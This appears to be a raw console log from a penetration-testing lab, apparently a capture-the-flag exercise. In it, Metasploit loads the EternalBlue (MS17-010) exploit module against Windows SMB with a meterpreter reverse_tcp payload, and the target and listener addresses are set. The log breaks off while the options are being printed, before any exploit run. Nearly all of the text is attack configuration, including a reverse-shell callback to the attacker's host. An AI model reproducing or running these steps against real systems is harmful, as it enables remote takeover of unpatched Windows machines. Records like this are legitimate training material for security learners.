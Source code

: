--------------------------------------------------------------------------


msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/ba
                                             sics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Se
                                             rver 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.10.5       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.


-----------------------------------------------------------------------------------------------------

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.17.93.24
LHOST => 10.17.93.24
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.194.57
RHOSTS => 10.10.194.57
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.194.57     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/ba
                                             sics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Se